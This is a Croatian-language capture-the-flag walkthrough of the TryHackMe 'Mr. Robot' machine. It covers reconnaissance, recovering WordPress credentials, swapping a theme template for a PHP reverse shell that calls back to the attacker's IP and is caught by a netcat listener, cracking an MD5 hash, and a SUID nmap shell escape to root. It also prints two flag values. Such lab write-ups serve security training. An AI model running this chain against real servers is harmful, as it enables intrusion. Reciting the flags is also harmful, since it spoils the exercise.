






Mr. Robot CTF na platformi TryHackMe je klasična virtualna mašina srednje težine inspirirana hit televizijskom serijom. Ovaj vodič pokriva cjelokupan proces eksploatacije od početka do kraja, od početnog mrežnog izviđanja i brute-force napada na web direktorije, pa sve do stabilizacije reverse shell-a i iskorištavanja loše konfiguriranih SUID binarnih datoteka za eskalaciju privilegija do root razine.

---

## Okruženje i alati

Za pokretanje procesa eksploatacije, uspostavite sigurnu vezu s TryHackMe mrežom putem OpenVPN-a. Ovo okruženje koristi standardne alate ugrađene u Kali Linux distribuciju:

* **Nmap:** Istraživanje mreže i otkrivanje usluga.
* **Gobuster:** Brute-force napadi na direktorije i datoteke.
* **Netcat:** Ubacivanje proizvoljnih podataka i slušanje reverse shell-a.
* **Python:** Stabilizacija TTY ljuske (shell).

---

## Faza 1: Početni pristup i mrežno izviđanje

Prije provođenja bilo kakvog aktivnog skeniranja ciljane mete, mora se uspostaviti siguran tunel prema TryHackMe infrastrukturi, nakon čega slijedi agresivno skeniranje portova kako bi se mapirala površina napada.

### Uspostavljanje OpenVPN veze

1. Preuzmite svoj prilagođeni konfiguracijski profil (`.ovpn`) sa službene <a href="https://tryhackme.com/access" target="_blank" rel="noopener noreferrer">TryHackMe stranice za pristup</a>.
2. Pokrenite vezu pomoću OpenVPN uslužnog programa naredbenog retka s root privilegijama:

    ```shell
    sudo openvpn <YOUR_FILENAME>.ovpn
    ```

3. Provjerite je li sučelje tunela (`tun0`) aktivno i je li mu dodijeljena IP adresa unutar laboratorijske podmreže.

### Enumeracija mreže

Prvo moramo provjeriti koji su portovi otvoreni. Što više znamo o sustavu, to bolje. U ovom slučaju, koristit ćemo Nmap za skeniranje mreže.

#### Nmap skeniranje

Pokrećemo agresivno skeniranje usluga (`-A`) protiv ciljane mašine kako bismo identificirali otvorene portove, detalje o operativnom sustavu i verzije pokrenutih usluga:

```shell
nmap -A <TARGET_IP>
```

### Rezultat Nmap skeniranja

```shell
kali@kali:-/Desktop$ nmap 10.10.51.194 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 18:35 CEST
Nmap scan report for 10.10.38.44
Host is up (0.095s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03    


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds
```

Kao što možemo vidjeti, imamo otvoren port 80, što nam govori da se na ovom poslužitelju nalazi web stranica koja koristi HTTP protokol. Naš sljedeći korak je otkrivanje skrivenih direktorija i datoteka na web poslužitelju pomoću brute-force napada na direktorije.

---

## Faza 2: Otkrivanje web direktorija

Za provođenje enumeracije direktorija potreban nam je kvalitetan popis riječi (wordlist) i brz alat za brute-forcing. Koristit ćemo **SecLists** zbirku popisa riječi i **Gobuster** za samu fazu enumeracije.

### Instalacija SecLists zbirke

Ako je nemate instaliranu na svom sustavu, možete instalirati cijelu SecLists kolekciju pomoću upravitelja paketa `apt`:

```shell
sudo apt install seclists
```

Nakon pokretanja ove naredbe, popisi riječi (wordlists) bit će dostupni u direktoriju `/usr/share/seclists/`.

### Enumeracija direktorija pomoću Gobustera

Koristit ćemo Gobusterov način rada za direktorije (`dir`), usmjeriti ga na ciljani URL te iskoristiti popis riječi `common.txt` iz SecLists zbirke kako bismo otkrili aktivne krajnje točke (endpoints) na web poslužitelju:

```shell
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

#### Rezultat Gobuster skeniranja

```shell
kali@kali:~/Desktop$ gobuster dir -u http://10.10.51.194/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.51.194/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/23 18:27:45 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.51.194/0/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.51.194/Image/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.51.194/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.51.194/audio/]  
/blog                 (Status: 301) [Size: 233] [--> http://10.10.51.194/blog/]   
/css                  (Status: 301) [Size: 232] [--> http://10.10.51.194/css/]    
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-admin/] 
/favicon.ico          (Status: 200) [Size: 0]                                     
/feed                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]     
/images               (Status: 301) [Size: 235] [--> http://10.10.51.194/images/] 
/image                (Status: 301) [Size: 0] [--> http://10.10.51.194/image/]    
/index.php            (Status: 301) [Size: 0] [--> http://10.10.51.194/]          
/index.html           (Status: 200) [Size: 1188]                                  
/js                   (Status: 301) [Size: 231] [--> http://10.10.51.194/js/]     
/intro                (Status: 200) [Size: 516314]                                
/license              (Status: 200) [Size: 309]                                   
/login                (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.51.194/]            
/phpmyadmin           (Status: 403) [Size: 94]                                               
/readme               (Status: 200) [Size: 64]                                               
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/rdf/]            
/robots               (Status: 200) [Size: 41]                                               
/robots.txt           (Status: 200) [Size: 41]                                               
/rss                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
/sitemap              (Status: 200) [Size: 0]                                                
/sitemap.xml          (Status: 200) [Size: 0]                                                
/video                (Status: 301) [Size: 234] [--> http://10.10.51.194/video/]             
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.51.194/wp-admin/]          
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.51.194/wp-content/]
/wp-config            (Status: 200) [Size: 0]                                        
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.51.194/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]                                         
/wp-links-opml        (Status: 200) [Size: 227]                                       
/wp-load              (Status: 200) [Size: 0]                                         
/wp-login             (Status: 200) [Size: 2606]                                      
/wp-mail              (Status: 500) [Size: 3064]                                      
/wp-settings          (Status: 500) [Size: 0]                                         
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php?action=register]
/xmlrpc               (Status: 405) [Size:42]                                                      
===============================================================
2021/05/23 18:40:33 Finished
===============================================================
```

---

## Faza 3: Ekstrakcija prvog ključa (Key #1)

Pregledom rezultata enumeracije direktorija ističe se nekoliko vrlo zanimljivih krajnjih točaka (endpoints). Prisutnost više `/wp-` putanja potvrđuje da ciljana meta koristi WordPress CMS. Osim toga, datoteke `/robots.txt` i `/robots` odmah su dostupne. 

Kada u web pregledniku navigiramo na osnovnu IP adresu, dočekuje nas prilagođena interaktivna odredišna stranica inspirirana serijom:



Kako bismo pronašli svoju početnu točku ulaza, pregledavamo `/robots.txt` datoteku tako da posjetimo `http://<TARGET_IP>/robots.txt`. Web poslužitelj otkriva dvije specifične datoteke unutar tog direktorija:



Izlazni rezultat otkriva dva resursa:
* `fsociety.dic` — Prilagođena datoteka s popisom riječi (wordlist) koja će nam vjerojatno kasnije koristiti za brute-force napad na autentifikaciju.
* `key-1-of-3.txt` — Lokacija naše prve zastavice (flag).

### Preuzimanje prvog ključa

Iako token možemo vidjeti izravno u pregledniku, također ga možemo čisto preuzeti ili pročitati putem terminala koristeći alat `curl`:

```shell
curl -s http://<TARGET_IP>/key-1-of-3.txt
```

#### Izlazni rezultat

```shell
kali@kali:~/Desktop$ curl -s http://10.10.51.194/key-1-of-3.txt

073403c8a58a1f80d943455fb30724b9
```
**Prvi ključ osiguran:** 073403c8a58a1f80d943455fb30724b9

---

## Faza 4: Autentifikacija na webu i Brute-Forcing

Nakon što smo osigurali prvu zastavicu, prebacujemo fokus na dobivanje početnog pristupa sustavu. Izlazni rezultat Gobustera istaknuo je više WordPress krajnjih točaka, specifično upućujući na `/wp-login.php`. 

### Analiza WordPress prijavnog obrasca

Kada navigiramo na `http://<TARGET_IP>/wp-login.php`, prikazuje nam se standardni WordPress panel za autentifikaciju:



Za nastavak su nam potrebne važeće vjerodajnice. Pokušaj prijave s proizvoljnim podacima otkriva zanimljivo ponašanje u aplikacijskom upravljanju pogreškama. Ako unesemo nepostojeće korisničko ime, sustav ispisuje eksplicitnu poruku o pogrešci:

> **Trag koji daje aplikacija:** "Invalid username." (Neispravno korisničko ime).

Ova specifična konfiguracija pogrešaka omogućuje nam provođenje enumeracije korisnika. Kada pogodimo važeće korisničko ime, poruka o pogrešci će se promijeniti i javiti da je lozinka neispravna, čime potvrđujemo da taj korisnik doista postoji.

### Priprema popisa riječi (`fsociety.dic`)

Prije pokretanja brute-force napada, moramo preuzeti prilagođenu datoteku rječnika koju smo ranije otkrili unutar `/robots.txt`. Preuzimamo je pomoću alata `curl`:

```shell
curl -o fsociety.dic http://<TARGET_IP>/fsociety.dic
```

Nakon preuzimanja popisa riječi, možemo provjeriti njegovu veličinu i strukturu. Brza analiza otkriva da je `fsociety.dic` ogroman popis s više od 850.000 riječi. Međutim, popis sadrži tisuće duplih unosa, što bi nepotrebno usporilo naše brute-force pokušaje. Možemo ga optimizirati tako da sortiramo datoteku i izvučemo samo jedinstvene unose:

```shell
sort -u fsociety.dic > fsociety_unique.dic
```

To smanjuje veličinu rječnika s više od 850.000 riječi na oko 11.000 jedinstvenih pojmova, čineći našu brute-force fazu znatno bržom.

### Provođenje enumeracije korisnika i lozinki

Koristeći optimizirani popis riječi, možemo ciljati WordPress prijavni obrazac pomoću alata kao što su **WPScan** ili **Hydra** kako bismo otkrili važeće korisnike i lozinke. Prvo provodimo enumeraciju važećih korisnika:

```shell
wpscan --url http://<TARGET_IP>/ -U fsociety_unique.dic --enumerate u
```

Ovo skeniranje brzo identificira korisničko ime `elliot`. 

Međutim, umjesto da trošimo računalno vrijeme na brute-forcing lozinke za `elliot` račun pomoću našeg popisa riječi, dublji pregled našeg ranijeg Gobuster skeniranja direktorija otkriva puno brži put.

### Otkrivanje skrivenih vjerodajnica

Izlazni rezultat Gobuster skeniranja direktorija izlistao je krajnju točku `/license` koja vraća statusni kod `200 OK`. Kada pošaljemo zahtjev prema ovoj krajnjoj točki pomoću alata `curl`, dobivamo tajnovitu obavijest o licenci. Ono što je ključno, skrolanjem prema dolje ili čišćenjem praznog prostora (whitespace) na samom dnu dokumenta otkriva se skriveni Base64 niz:

```shell
curl -s http://<TARGET_IP>/license | tr -d "\n"
```

#### Izlazni rezultat

```shell
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a    password or something? ZWxsaW90OkVSMjgtMDY1Mgo=
```

Specifičan niz `ZWxsaW90OkVSMjgtMDY1Mgo=` na kraju izgleda sumnjivo nalik na Base64-kodirane vjerodajnice.

### Dekodiranje Base64 niza

Ovaj niz možemo dekodirati izravno u našem terminalu:

```shell
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
```

#### Izlazni rezultat

```shell
elliot:ER28-0652
```

Uspjeh! Dekodirani izlaz pruža važeće vjerodajnice u formatu `korisničko_ime:lozinka`:
* **Korisničko ime:** `elliot`
* **Lozinka:** `ER28-0652`

> **Zanimljivost:** Lozinka `ER28-0652` je izvrsna referenca na identifikacijski broj zaposlenika Elliota Aldersona u tvrtki Allsafe Cybersecurity iz televizijske serije *Mr. Robot*.

---

## Faza 5: Dobivanje početnog pristupa (Reverse Shell)

Sada kada imamo administrativne vjerodajnice, možemo se autentificirati na WordPress pozadinski sustav (backend) i pokušati postići izvršavanje udaljenog koda (RCE) na poslužitelju.

### Autentifikacija na WordPress administratorski panel

1. Navigirajte na `http://<TARGET_IP>/wp-login.php` (ili `/login`).
2. Prijavite se koristeći vjerodajnice koje smo pronašli: `elliot` / `ER28-0652`.
3. Nakon uspješne autentifikacije, bit ćete preusmjereni na glavnu WordPress administratorsku nadzornu ploču (Dashboard). U donjem lijevom kutu nadzorne ploče prikazana je verzija **4.3.1**, koja je prilično zastarjela i poznata kao ranjiva na vektore eksploatacije putem uređivanja tema.


### Iskorištavanje uređivača tema za izvršavanje udaljenog koda (RCE)

Budući da imamo dozvole na razini administratora, možemo iskoristiti ugrađeni uređivač tema (Theme Editor) kako bismo ubacili prilagođenu PHP skriptu i izvršili sustavne naredbe.

1. Navigirajte na **Appearance > Theme Editor** (Izgled > Uređivač tema) na navigacijskoj ploči s lijeve strane.



2. Među predlošcima aktivne teme (obično *Twenty Fifteen*), pronađite **404 Template** (`404.php`).



3. Zamijenit ćemo zadani `404.php` predložak s prilagođenom PHP skriptom za reverse shell. Možemo koristiti općepoznati <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank" rel="noopener noreferrer">PentestMonkey PHP Reverse Shell</a>.
4. Preuzmite skriptu i ažurirajte konfiguracijske varijable (`$ip` i `$port`) tako da upućuju na lokalnu IP adresu vaše Kali Linux mašine (dodijeljenu vašem `tun0` sučelju) i port po vašem izboru (npr. `1234`):

    ```php
    $ip = '10.10.x.x';  // Zamijenite s lokalnom tun0 IP adresom vaše Kali mašine
    $port = 1234;       // Vaš lokalni port za slušanje (listening port)
    ```

5. Kopirajte ažurirani kod i zalijepite ga u cijelosti u WordPress uređivač, prepisujući originalni sadržaj datoteke `404.php`. Kliknite na **Update File** (Ažuriraj datoteku) kako biste spremili promjene.

> **Važno:** Obavezno provjerite točnu lokalnu IP adresu svog `tun0` sučelja pomoću naredbe `ip a` ili `ifconfig` u Kali Linuxu prije postavljanja samog payload-a.

### Postavljanje Netcat slušatelja (Listener)

Prije pokretanja našeg payload-a, moramo postaviti lokalni slušatelj na portu naše Kali mašine kako bismo uhvatili dolaznu vezu:

```shell
nc -nlvp 1234
```

### Pokretanje Reverse Shell-a

Kako bismo izvršili naš ubačeni PHP kod, aktivirat ćemo 404 stranicu tako da posjetimo nepostojeću poveznicu ili izravno pozovemo URL izmijenjenog predloška:

```shell
curl -s http://<TARGET_IP>/wp-content/themes/twentyfifteen/404.php
```

Alternativno, jednostavno posjećivanje adrese `http://<TARGET_IP>/doesnotexist` u pregledniku aktivirat će predložak. Pogledom natrag na naš terminal, vidimo da je Netcat slušatelj uspješno uhvatio vezu, pružajući nam ljusku (shell):



---

## Faza 6: Lokalna enumeracija i eskalacija korisničkih privilegija

Naš reverse shell nam omogućuje vezu, ali ona je vrlo ograničena. Provjera trenutnih privilegija pokazuje da imamo pristup samo servisnom računu s niskim ovlastima:

```shell
$ whoami
daemon
```

### Stabilizacija ljuske (Pokretanje TTY-ja)

Standardne reverse shell veze uhvaćene preko Netcata su jednostavne "glupe" ljuske kojima nedostaju osnovne značajke kao što su povijest naredbi, dopunjavanje tabulatorom (tab-completion) ili kontrola poslova, a pokretanje naredbi poput `su` ili `sudo` neće uspjeti. Provjeravamo je li Python instaliran na domaćinu kako bismo pokrenuli potpuno interaktivnu TTY ljusku:

```shell
$ which python
/usr/bin/python
```

Budući da je Python dostupan, pokrećemo interaktivnu bash sesiju pomoću modula `pty`:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Ovo nadograđuje našu sesiju u potpuno interaktivnu TTY ljusku, što nam omogućuje izvršavanje složenijih sistemskih naredbi.

### Istraživanje kućnog (Home) direktorija

Izlistat ćemo sadržaj direktorija `/home` kako bismo pronašli važeće korisnike sustava:

```shell
ls -la /home
# Izlazni rezultat prikazuje korisnika po imenu 'robot'
```

Pregledom direktorija `/home/robot` otkrivaju se dvije ključne datoteke:

```shell
$ ls -l /home/robot
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

Vidimo da `key-2-of-3.txt` sadrži našu drugu zastavicu, ali ima stroge ovlasti samo za čitanje (`-r--------`) i u isključivom je vlasništvu korisnika `robot`. Međutim, druga datoteka `password.raw-md5` čitljiva je za sve korisnike (world-readable):

```shell
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

To nam daje MD5 sažetak (hash) lozinke za korisnika `robot`.

### Razbijanje MD5 sažetka lozinke

Sažetak `c3fcd3d76192e4007dfb496cca67e13b` je neposoljena (unsalted) MD5 reprezentacija lozinke. Budući da je MD5 kriptografski slab, ovaj sažetak možemo lako reverzirati ili razbiti. Možemo koristiti mrežnu bazu podataka za provjeru MD5 sažetaka (poput Gromweba ili CrackStationa) ili ga razbiti lokalno koristeći alate **Hashcat** ili **John the Ripper**:

```shell
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Sažetak se dekodira u sljedeću tekstualnu vrijednost (plaintext):
`abcdefghijklmnopqrstuvwxyz`

* **Korisničko ime:** `robot`
* **Lozinka:** `abcdefghijklmnopqrstuvwxyz`

### Prebacivanje na korisnika Robot

Sada možemo lokalno eskalirati naše privilegije s korisnika niskih ovlasti `daemon` na korisnika `robot` autentifikacijom pomoću naših novopečenih vjerodajnica:

```shell
$ su - robot
Password: abcdefghijklmnopqrstuvwxyz
robot@mercury:~$ whoami
robot
```

### Preuzimanje ključa br. 2 (Key #2)

S našim novim korisničkim privilegijama, sada možemo pročitati drugu zastavicu:

```shell
robot@mercury:~$ cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

**Ključ br. 2 osiguran:** `822c73956184f694993bede3eb39f959`

---

## Faza 7: Eskalacija privilegija na Root razinu

S osigurana dva od tri ključa, naš konačni cilj je eskalirati naše privilegije na `root` razinu i preuzeti treći ključ, koji je obično pohranjen u `/root` direktoriju.

### Provjera Sudo privilegija

Prvo provjeravamo ima li korisnik `robot` bilo kakve administrativne ovlasti putem sudo naredbe:

```shell
robot@mercury:~$ sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz
Sorry, user robot may not run sudo on linux.
```

Korisnik nije dio sudoers grupe. Zbog toga moramo pronaći alternativni vektor za eskalaciju privilegija.

### Identifikacija SUID binarnih datoteka (SUID Binaries)

Čest vektor za lokalnu eskalaciju privilegija na Linuxu je iskorištavanje loše konfiguriranih binarnih datoteka koje imaju postavljen SUID (Set Owner User ID) bit. Kada se pokrene binarna datoteka sa SUID bitom, ona se izvršava s dozvolama vlasnika datoteke (u ovom slučaju, `root`), umjesto s dozvolama korisnika koji ju je pokrenuo.

Pretražit ćemo cijeli datotečni sustav za SUID binarne datoteke u vlasništvu `root` korisnika:

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

#### Izlazni rezultat

```shell
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Popis prikazuje vrlo neobičan unos: `/usr/local/bin/nmap`. 

### Iskorištavanje SUID Nmap-a (Interaktivni način rada)

Provjeravamo ovlasti i verziju Nmap binarne datoteke:

```shell
$ ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```

Slovo `s` u bloku dozvola vlasnika (`-rwsr-xr-x`) potvrđuje da je SUID bit postavljen i da je datoteka u vlasništvu `root` korisnika. Zatim provjeravamo verziju Nmap-a:

```shell
$ /usr/local/bin/nmap --version
nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Nmap pokreće verziju **3.81**. Starije verzije Nmap-a (konkretno izdanja između verzija `2.02` i `5.21`) sadrže **interaktivni način rada** (interactive mode) namijenjen omogućavanju korisnicima da pokreću naredbe i izvršavaju skripte u interaktivnom okruženju. Budući da se binarna datoteka izvršava s privilegijama root razine zbog SUID konfiguracije, pokretanje ljuske (shell) iz interaktivne konzole izravno eskalira našu sesiju na `root`.

1. Pokrenite Nmap u interaktivnom načinu rada:
    ```shell
    /usr/local/bin/nmap --interactive
    ```

2. Unutar interaktivnog upita, pokrećemo zamjensku ljusku (escaping shell) koristeći uskličnik `!` kao prefiks:
    ```shell
    nmap> !sh
    ```

3. Potvrdite naše nove privilegije:
    ```shell
    # whoami
    root
    ```

Uspješno smo zaobišli sva sistemska ograničenja i sada radimo s punim administrativnim root privilegijama.

### Preuzimanje ključa br. 3 (Key #3)

Idemo u `/root` direktorij i provjeravamo konačnu zastavicu:

```shell
# ls -la /root
total 28
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Nov 13  2015 ..
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
```

